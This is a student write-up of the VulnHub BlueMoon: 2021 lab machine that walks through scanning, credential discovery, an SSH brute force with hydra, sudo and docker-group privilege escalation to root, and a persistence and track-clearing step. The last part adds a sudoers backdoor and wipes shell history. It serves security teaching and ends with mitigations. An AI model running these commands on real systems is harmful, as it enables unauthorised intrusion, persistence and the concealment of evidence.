# BlueMoon: 2021 — System Hacking Walkthrough

**Course:** System Hacking (Week 3 Task)
**Target machine:** BlueMoon: 2021 (VulnHub) — https://www.vulnhub.com/entry/bluemoon-2021,679/
**Attacker:** Kali Linux
**Goal:** Get Root
**Author:** *your name / student ID*
**Date:** 02/11/2026

> All actions were performed against a deliberately vulnerable lab VM running on an isolated VirtualBox **Host-Only** network, for educational purposes only.

---

## Summary

| Stage | Result |
|-------|--------|
| Reconnaissance | Target found at `192.168.56.101` |
| Scanning | Ports 21 (FTP), 22 (SSH), 80 (HTTP) open; hidden web path found |
| Gaining Access | QR code → FTP creds → password list → SSH as `robin` |
| Privilege Escalation | `robin` → `jerry` (sudo script) → `root` (docker group) |

**Flags captured**

| Flag | Value |
|------|-------|
| User-1 | `Fl4g{u5er1r34ch3d5ucc355fully}` |
| User-2 | `Fl4g{Y0ur34ch3du53r25uc355ful1y}` |
| Root | `Fl4g{r00t-H4ckTh3P14n3t0nc34g41n}` |

---

## 1. Reconnaissance

Both the attacker (Kali) and the target were placed on the same VirtualBox Host-Only network (`192.168.56.0/24`). `netdiscover` was used to locate the live host.

```bash
sudo netdiscover -r 192.168.56.0/24
```

The target was identified as **192.168.56.101**.



---

## 2. Scanning

A full service/version scan was run against the target.

```bash
nmap -sC -sV -Pn -vv 192.168.56.101
```

Three ports were open:

| Port | Service | Version |
|------|---------|---------|
| 21/tcp | FTP | vsftpd 3.0.3 |
| 22/tcp | SSH | OpenSSH 7.9p1 (Debian) |
| 80/tcp | HTTP | Apache httpd 2.4.38 — page title `BlueMoon:2021` |



Directory brute-forcing was then run against the web server.

```bash
gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x sh,txt,php,bak,html
```

Result: `index.html`, `server-status` (403), and a hidden path **`hidden_text`** (200).



---

## 3. Gaining Access

### 3.1 Inspecting the hidden page

The `/hidden_text` page was read and its source referenced a hidden image file.

```bash
curl http://192.168.56.101/hidden_text
```



### 3.2 Decoding the QR code

A hidden QR image on the server was decoded. It contained a small bash script leaking **FTP credentials**.

```bash
wget http://192.168.56.101/.QR_C0d3.png
zbarimg .QR_C0d3.png
```

Decoded credentials:

```
USER=userftp
PASSWORD=ftpp@ssword
```



### 3.3 FTP login

```bash
ftp 192.168.56.101
# Name: userftp
# Password: ftpp@ssword
ls -la
get information.txt
get p_lists.txt
bye
```

Two files were retrieved: `information.txt` and `p_lists.txt`.



- `information.txt` reveals the username **`robin`** and hints at a weak password.
- `p_lists.txt` is a list of candidate passwords.

```bash
cat information.txt
cat p_lists.txt
```



### 3.4 Brute-forcing SSH

Using the discovered username and the password list:

```bash
hydra -l robin -P p_lists.txt ssh://192.168.56.101
```

The valid password was recovered and used to log in over SSH as `robin`.

```bash
ssh robin@192.168.56.101
whoami    # robin
id
cat user1.txt
sudo -l
```

The **User-1 flag** was found in robin's home directory, and `sudo -l` revealed the next step.



Further local enumeration (home directory contents, SUID binaries) was also performed to confirm the escalation path.



```
User-1 Flag: Fl4g{u5er1r34ch3d5ucc355fully}
sudo -l:  (jerry) NOPASSWD: /home/robin/project/feedback.sh
```

---

## 4. Privilege Escalation

### 4.1 robin → jerry (sudo on a writable script)

`sudo -l` showed robin may run `/home/robin/project/feedback.sh` as **jerry** without a password. Since the `project` folder is owned by robin, the script was removed and replaced with a shell.

```bash
cd /home/robin/project
rm feedback.sh
echo 'bash' > feedback.sh
chmod +x feedback.sh
sudo -u jerry /home/robin/project/feedback.sh
whoami    # jerry
```



The **User-2 flag** was found in jerry's home directory.

```bash
cat /home/jerry/user2.txt
# Fl4g{Y0ur34ch3du53r25uc355ful1y}
```



### 4.2 jerry → root (docker group)

jerry was a member of the **docker** group, which is root-equivalent. A container was run with the host filesystem mounted, then `chroot` gave a root shell on the host.

```bash
id    # ... groups=...,docker
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
whoami    # root
cat /root/root.txt
# Fl4g{r00t-H4ckTh3P14n3t0nc34g41n}
```



---

## 5. Maintain Access & Clear Tracks (demonstration only)

Shown for completeness as part of the full system-hacking lifecycle. Performed only on this lab VM.

```bash
# Maintain Access (example backdoor)
echo 'robin ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers

# Clear Tracks
history -c
cat /dev/null > ~/.bash_history
```

---

## 6. Mitigation

| Stage | Weakness exploited | Recommended defense |
|-------|--------------------|---------------------|
| Recon / Scanning | Services openly exposed | Restrict exposed services; use a firewall; limit information disclosure |
| Web / QR | Secrets hidden in a public file | Never store credentials in client-accessible files or scripts |
| FTP | Plaintext credentials, weak account | Disable plaintext FTP; use SFTP; enforce strong authentication |
| SSH | Weak, guessable password | Enforce strong passwords, key-based auth, fail2ban, account lockout |
| sudo | Writable script runnable as another user | Never allow sudo on user-writable files; use absolute, locked-down scripts |
| Docker | Non-admin user in docker group | Treat docker group as root-equivalent; remove untrusted users from it |

---

## Conclusion

Starting from an unauthenticated network position, the BlueMoon machine was fully compromised to **root** by chaining weak information disclosure (QR code), credential reuse, SSH password brute-forcing, an insecure sudo configuration, and a docker-group privilege escalation. All three flags were captured.
